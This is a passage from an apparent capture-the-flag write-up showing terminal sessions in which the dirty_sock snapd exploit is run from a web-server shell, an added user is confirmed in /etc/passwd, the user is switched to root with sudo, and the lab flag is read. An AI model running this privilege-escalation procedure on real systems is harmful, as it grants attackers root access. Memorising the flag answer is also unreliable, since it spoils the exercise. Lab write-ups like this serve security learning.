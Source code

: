 ```bash
[+] Connecting to snapd API...
[+] Deleting trojan snap (and sleeping 5 seconds)...
[!] System may not be vulnerable, here is the API reply:


HTTP/1.1 401 Unauthorized
Content-Type: application/json
Date: Thu, 31 Jul 2025 xx:xx:xx GMT
Content-Length: 119

{"type":"error","status-code":401,"status":"Unauthorized","result":{"message":"access denied","kind":"login-required"}}
```

```bash
www-data@petshop:/dev/shm$ grep "dirty_sock" /etc/passwd
dirty_sock:x:1001:1001::/home/dirty_sock:/bin/bash
```

```bash
www-data@petshop:/dev/shm/dirty_sock-master$ python3 dirty_sockv2.py

      ___  _ ____ ___ _   _     ____ ____ ____ _  _ 
      |  \ | |__/  |   \_/      [__  |  | |    |_/  
      |__/ | |  \  |    |   ___ ___] |__| |___ | \_ 
                       (version 2)

//=========[]==========================================\\
|| R&D     || initstring (@init_string)                ||
|| Source  || https://github.com/initstring/dirty_sock ||
|| Details || https://initblog.com/2019/dirty-sock     ||
\\=========[]==========================================//


[+] Slipped dirty sock on random socket file: /tmp/ibateoiyrp;uid=0;
[+] Binding to socket file...
[+] Connecting to snapd API...
[+] Deleting trojan snap (and sleeping 5 seconds)...
[!] System may not be vulnerable, here is the API reply:


HTTP/1.1 401 Unauthorized
Content-Type: application/json
Date: Thu, 31 Jul 2025 xx:xx:xx GMT
Content-Length: 119

{"type":"error","status-code":401,"status":"Unauthorized","result":{"message":"access denied","kind":"login-required"}}
```

```bash
www-data@petshop:/dev/shm/dirty_sock-master$ su dirty_sock
Password: 
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

dirty_sock@petshop:/dev/shm/dirty_sock-master$ sudo -s
[sudo] password for dirty_sock: 
root@petshop:/dev/shm/dirty_sock-master# cat /root/root.txt
THM{YjMyZTkwYzZhM2U5MGEzZDU2MDc1NTMx}
root@petshop:/dev/shm/dirty_sock-master# 
```
